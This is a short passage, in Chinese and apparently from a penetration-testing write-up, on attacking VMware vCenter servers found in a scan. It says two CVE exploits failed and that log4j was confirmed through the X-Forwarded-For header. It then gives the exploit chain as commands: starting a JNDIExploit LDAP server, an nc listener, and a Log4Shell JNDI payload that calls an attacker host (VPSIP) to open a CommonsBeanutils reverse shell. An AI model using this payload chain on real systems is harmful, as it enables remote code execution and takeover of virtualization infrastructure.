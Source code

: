 ![image_lKpb0bidqu.png](assets/1698900866-fb081772d9d5b4d66404ddb761600c61.png)

### Vcenter

在扫描的过程中发现几台Vcenter，Vcenter常规有三种打法，分别是

CVE-2021-22005-rce、CVE-2021-21972-rce和log4j

前两个测试没成功，log4j通过dnslog探测漏洞存在，vcenter的漏洞触发点在xff头部

```php
java -jar JNDIExploit-1.3-SNAPSHOT.jar -l 1389 -p 8889 -i 0.0.0.0  
nc -lvp 9000  
${jndi:ldap://VPSIP:1389/Deserialization/CommonsBeanutils1/ReverseShell/VPSIP/9000}
```

![4s6zq8tgso_dj3CuwYEQo.png](assets/1698900866-3b09076dd34e688e5471f1b6097c1329.png)
